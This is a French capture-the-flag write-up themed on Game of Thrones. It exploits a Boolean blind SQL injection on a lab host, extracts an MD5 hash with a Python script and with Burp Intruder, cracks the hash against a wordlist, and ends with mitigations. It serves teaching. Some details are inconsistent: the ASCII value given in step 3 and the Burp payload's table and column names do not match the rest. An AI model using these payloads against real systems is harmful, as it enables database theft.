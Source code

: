 ```yaml
---
title: Writes-up 6
next: "/write-ups/wu7"
prev: "/write-ups/wu5"
---
```


# 🏰 CTF - Injection SQL Boolean Blind & Hash MD5 Faible

## 🎯 Objectif
Bravo ! Tu es dans **Castral-Roc**, dans la salle du mestre où sont stockées des **informations confidentielles des Lannister**. Parmi elles, un livre recensant **les alliés et espions infiltrés** dans les familles de Westeros.

**Mission** : Trouver **l’espion infiltré chez les Stark à Winterfell** et récupérer **son hash MD5**.

### 🔹 Informations de la table `allies`
- `username` : Nom de l’individu (hashé en MD5)
- `relation` : **famille / allié / espion / ennemi**
- `localisation` : Lieu d'opération

📌 **Problèmes de sécurité** :
- **Injection SQL Boolean Blind (`CWE-89`)** permettant d’extraire les données cachées.
- **Stockage MD5 (`CWE-328`)** permettant une attaque par dictionnaire.

📌 **Flag 1** : Le **hash MD5** du nom de l’espion infiltré chez les Stark à Winterfell.
📌 **Flag 2** : Le **nom de l’espion en clair** (`orland mertens`).

---

## ⚙️ Environnement
- **Cible :** `http://lannister.castral-roc.lannisport.south/sql_blind_hash.php`
- **Base de données :** `lannisport_db`
- **Données sensibles :** Table `allies`
- **Wordlist fournie** : Liste des 5000 personnes du château

---

## 🚀 Étape 1 : Vérifier la vulnérabilité SQL
Dans le champ **Nom** du formulaire, entre :
```sql
' OR 1=1 --
```
✅ **Si la réponse est `L’utilisateur est un allié`, alors l’injection SQL fonctionne.**


---

## 🔍 Étape 2 : Tester si un espion est infiltré chez les Stark
Dans le champ **Nom**, entre :
```sql
' OR (SELECT COUNT(*) FROM allies WHERE relation='espion' AND localisation='Winterfell') > 0 --
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors un espion est bien présent.**


---

## 🕵️ Étape 3 : Exfiltrer le hash MD5 de l’espion (Boolean Blind)
Nous allons **extraire son hash MD5 caractère par caractère** en utilisant **ASCII() et SUBSTRING()**.

Dans le champ **Nom**, entre :
```sql
' OR (SELECT ASCII(SUBSTRING(username, 1, 1)) FROM allies WHERE relation='espion' AND localisation='Winterfell') = 54 --
```
✅ **Si la page affiche `L’utilisateur est un allié`, alors le premier caractère du hash est `54` (hexadécimal).**

Répète en changeant `1, 1` par `2, 1`, `3, 1`… jusqu'à obtenir le hash MD5 complet !


---

## ⚡ Étape 4 : Automatiser l’extraction avec Python
Pour éviter une extraction manuelle, utilise ce script **Python** :
```python
import requests

URL = "http://lannister.castral-roc.lannisport.south/sql_blind_hash.php"
TRUE_RESPONSE = "L’utilisateur est un allié"
MD5_HASH = ""

for i in range(1, 33):  # Un hash MD5 fait 32 caractères hexadécimaux
    for hex_code in "0123456789abcdef":  # Valeurs hexadécimales
        payload = f"' OR (SELECT SUBSTRING(username, {i}, 1) FROM allies WHERE relation='espion' AND localisation='Winterfell') = '{hex_code}' -- "
        data = {"username": payload}
        response = requests.post(URL, data=data)

        if TRUE_RESPONSE in response.text:
            MD5_HASH += hex_code
            print(f"[+] Caractère {i} trouvé : {hex_code}")
            break

print(f"\n🚀 Hash MD5 de l'espion : {MD5_HASH}")
```

✅ **Exécute le script :**
```bash
python3 extract_md5.py
```
🚀 **Il affichera le hash MD5 complet !**


avec burp : 




BURP : 
1, ouvrir burp, et le browser intégré avec le proxy, 

2, faire requete sur http://lannister.castral-roc.lannisport.south/sql_blind_hash.php

pour trouver qqun, par exemple tyrion

3, Envoyer la requete dans l'Intruder 

Mettre ensuite l'attaque en cluster bomb.

après le user on met des payloads : 

username=' AND (SELECT

SUBSTRING(password,§position_carac§,1) FROM users WHERE

relation='espion')=§carac§, ,§position_carac§

4, on va ensuite dans payloads, pour le assigner des valeurs à §position_carac§ et §carac§

pour §position_carac§ on peut entrer des nombres de 1 à 20 et pour §carac§ on peut entrer des lettres de a à z, des lettres de A à Z, et des nombres de 0 à 9

Lancer l'attaque avec start attack

Tirer ensuite pas longueur et on obtient sur chaque ligne un lettre du hash

---

## 🔑 Étape 5 : Trouver le nom de l’espion via une wordlist
Le hash MD5 de l’espion doit être comparé aux 5000 noms fournis.

### 🔹 Utilisation d’un script Python pour comparer le hash
```python
import hashlib

MD5_TARGET = "54cc047eb12722d574b528af105d9e21"  # Hash obtenu
WORDLIST = "names_5000.txt"

with open(WORDLIST, "r", encoding="utf-8") as file:
    for name in file:
        name = name.strip().lower()
        hashed_name = hashlib.md5(name.encode()).hexdigest()

        if hashed_name == MD5_TARGET:
            print(f"[+] Nom de l'espion trouvé : {name}")
            break
```

✅ **Exécute le script :**
```bash
python3 crack_md5.py
```
🚀 **Il affichera `orland mertens` !**


---

## 🏆 Validation du CTF
🚀 **Félicitations, tu as terminé la mission !** 🔥

📌 **Flag 1** : `MD5 du nom de l’espion`
📌 **Flag 2** : `orland mertens`


---

## 🔒 Mitigation & Sécurisation
- **Éviter l’injection SQL** → Utiliser **des requêtes préparées** (`mysqli_stmt_bind_param`).
- **Ne pas stocker les mots de passe / noms sensibles en MD5** → Utiliser `bcrypt`.
- **Limiter les tentatives de requêtes Boolean Blind** → Protection par `fail2ban` et `CAPTCHA`.

---

## 🎯 Conclusion
✔ **Exploitation d’une injection SQL Boolean Blind (`CWE-89`).**
✔ **Exfiltration du hash MD5 de l’espion infiltré chez les Stark.**
✔ **Brute-force du hash MD5 avec une wordlist pour retrouver `orland mertens`.**

🚀 **CTF réussi ! Prêt pour la prochaine mission ?** 🔥